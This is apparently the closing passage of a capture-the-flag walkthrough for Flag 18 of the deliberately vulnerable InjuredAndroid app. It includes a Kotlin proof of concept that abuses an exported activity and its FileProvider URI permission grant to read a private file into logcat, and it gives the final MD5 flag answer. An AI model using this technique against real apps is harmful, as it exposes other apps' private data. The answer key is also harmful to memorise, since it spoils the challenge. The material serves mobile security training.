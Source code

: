 ```kotlin
    override fun onCreate(savedInstanceState: Bundle?) {
        super.onCreate(savedInstanceState)
        setContentView(R.layout.activity_main)
        val toolbar = findViewById<Toolbar>(R.id.toolbar)
        setSupportActionBar(toolbar)
        val fab = findViewById<FloatingActionButton>(R.id.fab)
        fab.setOnClickListener { view ->
            Snackbar.make(view, "OHNO PoC", Snackbar.LENGTH_LONG)
                    .setAction("Action", null).show()
        }
        val intent = Intent()
        intent.data = Uri.parse("content://b3nac.injuredandroid.fileprovider/files/test")
        intent.flags = Intent.FLAG_GRANT_READ_URI_PERMISSION
        intent.setClassName("b3nac.injuredandroid", "b3nac.injuredandroid.FlagEighteenActivity")
        startActivityForResult(intent, 0)
    }

    override fun onActivityResult(requestCode: Int, resultCode: Int, data: Intent?) {
        super.onActivityResult(requestCode, resultCode, data)
        try {
            Log.d("OHNO", IOUtils.toString(requireNonNull(requireNonNull(data!!.data)?.let { contentResolver.openInputStream(it) })))
        } catch (e: IOException) {
            e.printStackTrace()
        }
    }
}

```

Now when the proof of concept is used it won't display the `Log.d` result unless the back button is pressed. After pressing the back button `text.txt` will be displayed by logcat with the label `OHNO`.

When submitting only text.txt notice that this isn't quite yet the flag value that's needed. I left a hint in the submit function as a comment. :)

`// MD5`

Hashing `text.txt` with the MD5 algorithm will provide the hash `034d361a5942e67697d17534f37ed5a9`. Submit this value to complete the challenge! 


---

There's a video walk-through of all the exercises except Flag 18 here [Android Mobile Hacking Workshop](https://www.youtube.com/watch?v=PMKnPaGWxtg).